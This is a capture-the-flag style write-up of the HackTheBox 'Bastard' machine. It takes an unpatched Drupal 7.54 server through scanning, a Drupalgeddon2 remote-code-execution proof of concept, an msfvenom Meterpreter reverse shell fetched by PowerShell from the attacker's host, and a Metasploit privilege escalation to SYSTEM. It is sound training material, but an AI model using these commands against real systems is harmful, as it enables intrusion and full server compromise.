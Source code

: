 ```yaml
---
title: "Bastard from HackTheBox"
author: ferbot
date: 2020-01-02 12:00:00 +0800
categories: [htb, windows, bastard]
tags: [htb, windows, drupal, metasploit, powershell]
description: Easy Windows box from HTB about simple exploitation
---
```


### HTB: Bastard

What a bastard was this one. User shell was harder than I thought as ruby scripts didn't work out for me and ended up using a python poc out there in the wild. PrivEsc was easy because of metasploit, I tried to escalate by running kernel exploits but couldn't.

### Initial foothold

Let's start right away with an intense nmap scan.

```bash
$ nmap -Pn -p- -sV --max-retries=1 --min-rate=1000 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 14:17 EST
Nmap scan report for 10.10.10.9
Host is up (0.16s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.22 seconds
```

### Enumeration

135 and 49154 ports do not really give us something useful to work with at the start, so we start with port 80.

![placeholder](/assets/img/htb/bastard/1.png "Drupal")

Right away we are encountered with some Drupal website. There's actually a drupal scan called droopescan; installation is as easy as pip3 install droopescan.

```bash
$ droopescan scan drupal -u http://10.10.10.9/

[+] Plugins found:                                                              
    ctools http://10.10.10.9/sites/all/modules/ctools/
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/ctools/changelog.txt
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/ctools/LICENSE.txt
        http://10.10.10.9/sites/all/modules/ctools/API.txt
    libraries http://10.10.10.9/sites/all/modules/libraries/
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/libraries/changelog.txt
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/libraries/README.txt
        http://10.10.10.9/sites/all/modules/libraries/readme.txt
        http://10.10.10.9/sites/all/modules/libraries/README.TXT
        http://10.10.10.9/sites/all/modules/libraries/LICENSE.txt
    services http://10.10.10.9/sites/all/modules/services/
        http://10.10.10.9/sites/all/modules/services/README.txt
        http://10.10.10.9/sites/all/modules/services/readme.txt
        http://10.10.10.9/sites/all/modules/services/README.TXT
        http://10.10.10.9/sites/all/modules/services/LICENSE.txt
    image http://10.10.10.9/modules/image/
    profile http://10.10.10.9/modules/profile/
    php http://10.10.10.9/modules/php/

[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

[+] Scan finished (0:48:55.787253 elapsed)
```

Drupal version 7.54 is spotted. Now, next stop is to look in searchsploit for any vulnerability.

```bash
$ searchsploit drupal 7.5
----------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                           |  Path
                                                                                         | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------- ----------------------------------------
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                 | exploits/php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)              | exploits/php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution      | exploits/php/webapps/44449.rb
----------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

### Exploitation

Neither ruby exploits or metasploit worked out for me; still I encourage you to try them. After a few google searches (by CVE-2018-7602 and Drupalgeddon) I managed to find a [python poc](https://github.com/lorddemon/drupalgeddon2).

![placeholder](/assets/img/htb/bastard/2.png "Command execution!")

Now, with command execution, next step is to get a reverse shell. First of all we create some payload to upload to the machine and execute to get cmd back to us.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=6767 -f exe > hval.exe
```

We also setup a listener into metasploit.

```bash
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.32; set lport 6767; set ExitOnSession false; exploit -j"
```

A python HTTP server to download our files.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And finally we download and execute the msfvenom payload to get a shell back to our machine.

```bash
python drupalgeddon2.py -h http://10.10.10.9 -c "powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://10.10.14.32/hval.exe', 'C:\inetpub\drupal-7.54\hval.exe')"
```

```bash
python drupalgeddon2.py -h http://10.10.10.9 -c "hval.exe"
```

### Privilege Escalation

With a meterpreter shell we're now set to launch metasploit's exploit_suggester module to give us a first hint to privesc.

```bash
msf5 post(multi/recon/local_exploit_suggester) > run

[] 10.10.10.9 - Collecting local exploits for x64/windows...
[] 10.10.10.9 - 13 exploit checks are being tried...
[+] 10.10.10.9 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[] Post module execution completed
```

Going through one by one we finally get some privileges.

```bash
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set LHOST 10.10.14.32
LHOST => 10.10.14.32
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > run

[] Started reverse TCP handler on 10.10.14.32:4444 
[] Launching notepad to host the exploit...
[+] Process 1488 launched.
[] Reflectively injecting the exploit DLL into 1488...
[] Injecting exploit into 1488...
[] Exploit injected. Injecting payload into 1488...
[] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[] Command shell session 2 opened (10.10.14.32:4444 -> 10.10.10.9:49454) at 2020-01-01 18:46:13 -0500

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```

Root3d!

### Thank you

Any feedback is welcomed. As always thank you for reading!
